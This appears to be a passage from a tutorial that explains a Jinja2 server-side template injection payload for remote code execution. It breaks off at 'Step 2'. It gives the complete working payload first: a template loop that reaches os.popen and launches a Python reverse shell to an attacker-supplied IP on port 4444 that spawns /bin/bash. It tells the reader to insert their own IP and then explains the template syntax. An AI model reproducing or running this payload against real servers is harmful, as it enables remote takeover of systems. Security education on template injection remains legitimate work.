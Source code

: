 ## RCE Payload Explained

Breaking Down the Madness: Jinja2 RCE Payload Explained

Before diving into the payload's logic, here's the complete payload for achieving Remote Code Execution (RCE) through Server-Side Template Injection (SSTI):

```
{% raw %}
{% for x in ().__class__.__base__.__subclasses__() %}
{% if "warning" in x.__name__ %}
{{ x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"ip\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);subprocess.call([\"/bin/bash\", \"-i\"]);'").read().zfill(417) }}
{% endif %}
{% endfor %}
{% endraw %}
```

Replace `ip` with your actual IP address before using this payload.

#### Explanation of the Payload Components

**Why `%` Signs?**

In Jinja2 templates, control structures like loops (`for`) and conditionals (`if`) use `{% %}` syntax. These tags allow logic within the template rendering process:

* `{% for %}` iterates over collections or sequences.
* `{% if %}` conditionally renders blocks of code based on specified criteria.
* `{% endif %}` and `{% endfor %}` explicitly mark the end of the conditional and loop blocks, respectively.

These control structures help us navigate Python’s internal structures and find vulnerable objects to exploit.

**What does `.read().zfill(417)` do?**

* `.read()` retrieves the output from the executed command (`popen()`). Even if the command returns no visible output, `.read()` ensures the command actually runs to completion.
* `.zfill(417)` pads the output with leading zeros to guarantee a consistent length. This padding helps avoid issues where the Jinja2 template rendering might truncate or mishandle the output if the returned result is empty or unusually short. Essentially, it stabilizes payload behavior across different execution environments.

#### Step 1: Understanding the Logic

This payload leverages Python’s internal object structure and Jinja2's template rendering process to execute arbitrary system commands, ultimately creating a reverse shell to your machine.

The loop iterates through Python's base subclasses to locate useful objects that can bypass template sandbox restrictions.

#### Step 2: Identifying the Correct Subclass

